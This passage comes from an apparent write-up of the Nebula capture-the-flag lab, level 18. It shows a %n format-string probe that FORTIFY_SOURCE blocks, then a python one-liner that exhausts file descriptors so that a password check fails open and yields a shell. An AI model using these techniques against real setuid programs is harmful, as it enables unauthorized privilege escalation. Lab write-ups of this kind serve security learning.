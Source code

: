 This led me to learn about [stack canaries](https://en.wikipedia.org/wiki/Stack_canary#Stack_canaries), and with this we're out of luck
(for a simple solution). This means the code has been compiled with 
*FORTIFY_SOURCE* and this also going to prevent string formatting exploits in
the `notsupported` function.

{{< highlight console >}}
level18@nebula:/home/flag18$ ./flag18 -v -v -v -d /tmp/flag18/debug
site exec %n
*** %n in writable segment detected ***
Aborted
{{< / highlight >}}

Yup. In the process of researching this I also discovered a neat tool called
[checksec.sh](http://trapkit.de/tools/checksec.html) that can help identify these compiler options early on.

So what have we got left? The function that checks the password file. If it's
not actually able to find the password file, it will log us in. Unfortunately 
we're not able to delete it. However we can make the `fopen` call fail another
way. This error has happened a lot at work where we often deal with a lot of 
files being open on a single system. Linux systems have a limit as to how
many filedescriptors it can have open at any one time. Because
the tool doesn't close the file descriptors until you call `closelog`, 
we can just keep opening files until we hit the limit. Let's see what that
limit is.

{{< highlight console >}}
level18@nebula:/home/flag18$ ulimit -a
core file size          (blocks, -c) 0
data seg size           (kbytes, -d) unlimited
scheduling priority             (-e) 0
file size               (blocks, -f) unlimited
pending signals                 (-i) 1817
max locked memory       (kbytes, -l) 64
max memory size         (kbytes, -m) unlimited
open files                      (-n) 1024
pipe size            (512 bytes, -p) 8
POSIX message queues     (bytes, -q) 819200
real-time priority              (-r) 0
stack size              (kbytes, -s) 8192
cpu time               (seconds, -t) unlimited
max user processes              (-u) 1817
virtual memory          (kbytes, -v) unlimited
file locks                      (-x) unlimited
{{< / highlight >}}

*1024* is the limit. So let's open 1024 files and see what happens. As we have
a few file descriptors open already we just need to open 1021 more.

{{< highlight console >}}
level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'shell')" | ./flag18 -v -d /tmp/flag18/debug
./flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
{{< / highlight >}}

